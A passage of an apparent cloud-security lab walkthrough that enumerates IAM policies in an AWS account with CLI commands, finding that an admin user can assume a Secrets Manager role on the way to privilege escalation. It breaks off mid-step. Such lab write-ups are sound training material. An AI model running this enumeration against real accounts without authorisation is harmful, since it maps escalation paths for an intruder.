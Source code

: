 ```json
            "UserName": "manager_iam_privesc_by_key_rotation_###",
            "Arn": "arn:aws:iam::###:user/manager_iam_privesc_by_key_rotation_###"
        }
    ]
}
```

Now, we know that we also have admin and developer users. Let's see what the admin user can do.

### Get admin policies
```shell
aws --profile kerrigan_manager iam list-user-policies --user-name <admin-username>
```

Result:
```json
{
    "PolicyNames": [
        "AssumeRoles"
    ]
}
```

See what `AssumeRoles` policy can do
```shell
aws --profile kerrigan_manager iam get-user-policy --user-name <admin-username> --policy-name AssumeRoles
```

Result:
```json
{
    "UserName": "admin_iam_privesc_by_key_rotation_###",
    "PolicyName": "AssumeRoles",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": "sts:AssumeRole",
                "Effect": "Allow",
                "Resource": "arn:aws:iam::###:role/cg_secretsmanager_iam_privesc_by_key_rotation_###",
                "Sid": "AssumeRole"
            }
        ]
    }
}
```

From the result, the admin user can assumed the `cg_secretsmanager_iam_privesc_by_key_rotation_###` role

### Get assumed role policies
List all managed role policies
```shell
aws --profile kerrigan_manager iam list-attached-role-policies --role-name cg_secretsmanager_iam_privesc_by_key_rotation_###
```
